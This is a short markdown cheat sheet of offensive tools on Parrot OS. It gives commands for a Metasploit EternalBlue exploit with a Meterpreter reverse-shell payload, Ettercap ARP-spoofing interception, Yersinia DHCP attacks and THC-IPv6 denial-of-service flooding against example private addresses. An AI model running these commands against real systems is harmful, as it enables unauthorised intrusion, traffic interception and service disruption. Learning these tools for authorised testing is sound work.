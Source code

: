 # 🔥 Advanced Hacking Tools on Parrot OS

## 🎯 Top-Tier Security Tools Available

### **🚀 Exploitation Frameworks**

#### 1. **Metasploit Framework** (`metasploit-framework`)
```bash
# Start Metasploit
msfconsole

# Common commands:
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your_ip
exploit
```

#### 2. **Armitage** (Metasploit GUI)
```bash
# Start Armitage GUI
armitage
# Requires Metasploit to be running
```

### **🌐 Network Attack Tools**

#### 3. **Ettercap** (MITM Attacks)
```bash
# Graphical version
ettercap-graphical

# Command line MITM
sudo ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//
```

#### 4. **Yersinia** (Layer 2 Attacks)
```bash
# Launch Yersinia
sudo yersinia -G

# DHCP attacks
yersinia -I  # Interactive mode
```

#### 5. **THC-IPv6** (IPv6 Attack Toolkit)
```bash
# Various IPv6 attack tools
sudo dos_new-ip6  # IPv6 DoS
sudo flood_router6  # Router flooding
```
